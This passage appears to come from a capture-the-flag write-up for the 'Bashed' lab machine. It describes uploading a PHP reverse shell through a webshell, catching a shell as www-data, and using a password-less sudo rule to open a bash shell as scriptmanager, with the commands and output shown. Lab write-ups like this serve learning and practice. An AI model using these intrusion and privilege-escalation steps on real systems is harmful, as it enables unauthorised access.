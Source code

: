 ## Shell upgrade
* The webshell is great and all, but having an actual terminal shell would be great
* Upload the php-reverse-shell.php file to the uploads directory, then start a listener on our machine and visit the page for a shell as www-data
* Run sudo -l to see what files we can run as super user
```bash
www-data@bashed:/$ sudo -l 
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/$
```
* See that we can run any command as user scriptmanager, so get a shell as that user
```bash
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```